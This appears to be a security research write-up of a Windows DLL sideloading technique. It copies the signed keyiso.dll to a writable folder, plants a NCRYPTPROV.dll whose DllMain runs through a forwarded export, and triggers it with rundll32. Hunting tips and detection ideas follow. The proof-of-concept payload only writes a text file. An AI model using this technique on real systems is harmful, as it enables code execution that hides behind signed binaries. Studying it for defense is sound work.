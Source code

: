 ```
keyiso.dll KeyIsoSetAuditingInterface -> NCRYPTPROV.SetAuditingInterface
```

`NCRYPTPROV.dll` is not a KnownDLL, so it is resolved via normal search order.

PoC (copy-paste):
1) Copy the signed system DLL to a writable folder
```
copy C:\Windows\System32\keyiso.dll C:\test\
```
2) Drop a malicious `NCRYPTPROV.dll` in the same folder. A minimal DllMain is enough to get code execution; you do not need to implement the forwarded function to trigger DllMain.
```c
// x64: x86_64-w64-mingw32-gcc -shared -o NCRYPTPROV.dll ncryptprov.c
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE hinst, DWORD reason, LPVOID reserved){
    if (reason == DLL_PROCESS_ATTACH){
        HANDLE h = CreateFileA("C\\\\test\\\\DLLMain_64_DLL_PROCESS_ATTACH.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if(h!=INVALID_HANDLE_VALUE){ const char *m = "hello"; DWORD w; WriteFile(h,m,5,&w,NULL); CloseHandle(h);}        
    }
    return TRUE;
}
```
3) Trigger the forward with a signed LOLBin:
```
rundll32.exe C:\test\keyiso.dll, KeyIsoSetAuditingInterface
```

Observed behavior:
- rundll32 (signed) loads the side-by-side `keyiso.dll` (signed)
- While resolving `KeyIsoSetAuditingInterface`, the loader follows the forward to `NCRYPTPROV.SetAuditingInterface`
- The loader then loads `NCRYPTPROV.dll` from `C:\test` and executes its `DllMain`
- If `SetAuditingInterface` is not implemented, you'll get a "missing API" error only after `DllMain` has already run

Hunting tips:
- Focus on forwarded exports where the target module is not a KnownDLL. KnownDLLs are listed under `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`.
- You can enumerate forwarded exports with tooling such as:
```
dumpbin /exports C:\Windows\System32\keyiso.dll
# forwarders appear with a forwarder string e.g., NCRYPTPROV.SetAuditingInterface
```
- See the Windows 11 forwarder inventory to search for candidates: https://hexacorn.com/d/apis_fwd.txt

Detection/defense ideas:
- Monitor LOLBins (e.g., rundll32.exe) loading signed DLLs from non-system paths, followed by loading non-KnownDLLs with the same base name from that directory
- Alert on process/module chains like: `rundll32.exe` → non-system `keyiso.dll` → `NCRYPTPROV.dll` under user-writable paths
- Enforce code integrity policies (WDAC/AppLocker) and deny write+execute in application directories
